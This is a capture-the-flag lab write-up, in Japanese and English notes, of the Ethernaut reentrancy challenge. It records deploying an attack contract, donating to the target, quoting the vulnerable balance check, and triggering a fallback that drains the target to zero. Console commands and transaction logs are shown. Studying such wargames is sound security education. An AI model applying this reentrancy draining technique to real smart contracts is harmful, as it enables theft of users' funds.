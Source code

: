 // deployed Contracrs of EthernautReentrancyAttack.sol のAddress copy 
```
0x7950fA5D2E60b3F3Db9f04d8A362a4AFE952468F
```
```
>await getBalance("0x7950fA5D2E60b3F3Db9f04d8A362a4AFE952468F")
'0.001'
```

//click donateToTarget 
//donateすることでHackしたいcontractにAccessできるようになる
```
[block:10901383 txIndex:5]from: 0xF6e...f30F5to: EthernautReentrancyAttack.donateToTarget() 0x795...2468Fvalue: 0 weidata: 0x52e...3b827logs: 0hash: 0xbb9...4c252
```

//寄付完了
```
>await getBalance(contract.address)
'0.002'
```
//now we know that exist in this balances mapping! 

//Hacking用のcontract addressのbalanceOfを確認してみると、すでにmapping(Hacking)済みなのがわかる。
```
await contract.balanceOf("0x7950fA5D2E60b3F3Db9f04d8A362a4AFE952468F")
o {negative: 0, words: Array(3), length: 2, red: null}
length: 2
negative: 0
red: null
words: Array(3)
0: 13008896
1: 14901161
length: 3
[[Prototype]]: Array(0)
[[Prototype]]: Object
```

/このcodeのVulnerabilityを突いてover and over Ethを抜きまくり 
```solidity
if(balances[msg.sender] >= _amount) {
```

//transact をtapするとfallback function が発動する on EthernautReentrancyAttack.sol 
```
[block:10901390 txIndex:3]from: 0xF6e...f30F5to: EthernautReentrancyAttack.(fallback) 0x795...2468Fvalue: 0 weidata: 0xlogs: 0hash: 0x78d...84e2b
```


//stealing 成功
```
>await getBalance(contract.address)
'0'
```
---
Ref:[D-squared youtube channel](https://www.youtube.com/watch?v=VLueCEEAuIQ)
